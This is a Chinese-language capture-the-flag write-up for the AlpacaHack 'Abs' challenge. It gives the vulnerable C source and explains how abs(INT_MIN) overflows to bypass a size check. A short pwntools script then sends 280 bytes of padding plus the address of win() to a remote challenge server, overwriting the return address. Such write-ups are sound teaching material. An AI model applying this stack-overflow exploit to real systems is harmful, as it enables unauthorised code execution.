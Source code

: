 ### Abs 有符号整数溢出

话不多说，直接上题（AlpacaHack Round 1）

![](https://pic1.imgdb.cn/item/679f2ee9d0e0a243d4f98d92.png)

文件给出了源代码：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define BUF_SIZE 0x100

/* Call this function! */
void win() {
  char *args[] = {"/bin/cat", "/flag.txt", NULL};
  execve(args[0], args, NULL);
  exit(1);
}

int get_size() {
  // Input size
  int size = 0;
  scanf("%d%*c", &size);

  // Validate size
  if ((size = abs(size)) > BUF_SIZE) {
    puts("[-] Invalid size");
    exit(1);
  }

  return size;
}

void get_data(char *buf, unsigned size) {
  unsigned i;
  char c;

  // Input data until newline
  for (i = 0; i < size; i++) {
    if (fread(&c, 1, 1, stdin) != 1) break;
    if (c == '\n') break;
    buf[i] = c;
  }
  buf[i] = '\0';
}

void echo() {
  int size;
  char buf[BUF_SIZE];

  // Input size
  printf("Size: ");
  size = get_size();

  // Input data
  printf("Data: ");
  get_data(buf, size);

  // Show data
  printf("Received: %s\n", buf);
}

int main() {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  echo();
  return 0;
}
```

我们的目的是调用 win() 函数拿到 flag

重点是 get_size() 函数，它允许我们指定 size 大小但是被 abs() 函数限制在了最多 256

**将 abs 函数应用于 INT_MIN 可能会导致溢出**

**例如，对于 32 位 int 类型，INT_MIN 为 -2147483648。它的绝对值变成 2147483648，但是由于 int 的最大值是 2147483647，因此无法表示并发生溢出**

get_data 将 size 的值给了 buf，去看看 buf 的栈

![](https://pic1.imgdb.cn/item/679f3611d0e0a243d4f98e5f.png)

win 函数调用后需要打印出 flag

![](https://pic1.imgdb.cn/item/679f3762d0e0a243d4f98e85.png)

总共相差 280 个字节到缓冲区，构造 payload

```python
from pwn import *

p = remote('34.170.146.252', 59637)

p.sendlineafter(b"Size: ", b"-2147483648")
p.sendlineafter(b"Data: ", b'A' * 280 + p64(0x04011F6))
print(p.recvall())
```

成功解出！

![](https://pic1.imgdb.cn/item/679f318ad0e0a243d4f98dc8.png)
